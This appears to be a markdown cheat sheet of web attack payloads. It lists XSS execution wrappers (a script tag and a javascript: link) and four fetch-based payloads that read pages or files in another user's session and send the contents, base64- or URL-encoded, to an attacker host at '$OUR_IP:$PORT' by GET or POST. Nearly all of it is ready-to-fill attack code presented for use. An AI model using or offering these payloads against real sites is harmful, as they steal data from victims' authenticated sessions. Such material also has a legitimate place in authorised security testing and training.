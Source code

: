 # Payloads

Payloads can be leveraged from rendered file uploads and XSS/CSRF.

## Execution Contexts

**Basic**

```html
<script>
$PAYLOAD;
</script>
```

**Click Me**

```html
<a href="javascript:(function(){$PAYLOAD})()">Click here</a>
```

## CSRF Payloads

We can use these payloads to target forbidden/vulnerable content in the context of another user.

**GET (relative path, base64)**

```js
fetch('/?$PARAM=$VALUE')
	.then(r=>r.text())
	.then(d=>fetch('http://$OUR_IP:$PORT/c='+btoa(d)))

fetch('/?$PARAM=$VALUE').then(r=>r.text()).then(d=>fetch('http://$OUR_IP:$PORT/c='+btoa(d)))
```

**GET (absolute path, urlencoded)**

```js
fetch('http://example.com/sensitive_file.txt')
    .then(r=>r.text())
    .then(d=>fetch('http://$OUR_IP:$PORT/?c='+encodeURIComponent(d)))

fetch('http://$TARGET:$PORT/sensitive_file.txt').then(r=>r.text()).then(d=>fetch('http://$OUR_IP:$PORT/?c='+encodeURIComponent(d)))
```

**POST (relative path, base64)**

```js
fetch('/?PARAM=$VALUE')
    .then(r=>r.text())
    .then(d=>fetch('http://$OUR_IP:$PORT/c', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: 'c='+btoa(d)
    }))

fetch('/?PARAM=$VALUE').then(r=>r.text()).then(d=>fetch('http://$OUR_IP:$PORT/c',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded',},body:'c='+btoa(d)}))
```

**POST (absolute path, urlencoded)**

```js
fetch('http://example.com/sensitive_file.txt')
    .then(r=>r.text())
    .then(d=>fetch('http://$OUR_IP:$PORT/c', {
	    method: 'POST',
		headers: {
		    'Content-Type': 'application/x-www-form-urlencoded',
	    },
	    body: 'c='+encodeURIComponent(d)
	}))

fetch('http://$TARGET:$PORT/sensitive_file.txt').then(r=>r.text()).then(d=>fetch('http://$OUR_IP:$PORT/c',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded',},body:'c='+encodeURIComponent(d)}))
```
